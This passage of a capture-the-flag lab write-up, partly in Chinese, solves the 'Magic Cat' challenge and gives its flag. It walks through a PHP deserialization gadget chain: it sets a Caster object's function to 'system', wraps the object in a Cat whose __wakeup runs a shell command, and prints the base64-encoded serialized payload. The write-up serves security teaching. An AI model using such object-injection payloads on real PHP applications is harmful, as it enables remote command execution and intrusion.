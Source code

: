4. Then we got flag...
## Lab-Magic Cat
Flag: `FLAG{magic_cat_pwnpwn}`
### 解題流程與思路
1. Test payload in local side
    ```bash!
    $ ./psysh
    > class Caster
    . {
    .     public $cast_func = 'intval';
    .     function cast($val)
    .     {
    .         return ($this->cast_func)($val);
    .     }
    . }
    > $test = new Caster
    = Caster {#2772
        +cast_func: "intval",
      }
    
    > $test->cast_func = 'system'
    = "system"
    > $test->cast('pwd')
    = "/home/sbk6401"
    ```
2. Construct serialized session
    ```bash!
    > class Cat
    . {
    .     public $magic;
    .     public $spell;
    .     function __construct($spell)
    .     {
    .         $this->spell = $spell;
    .         $this->magic = new Caster();
    .     }
    .     function __wakeup()
    .     {
    .         echo "Cat Wakeup!\n";
    .         $this->magic->cast($this->spell);
    .     }
    . }
    > $cat = new Cat("ls -al /")
    = Cat {#2771
        +magic: Caster {#2763
          +cast_func: "intval",
        },
        +spell: "ls -al /",
      }
    > $cat->magic->cast_func = "system"
    = "system"
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjg6ImxzIC1hbCAvIjt9"
    ```
    ![](https://i.imgur.com/x5tCrhb.png)
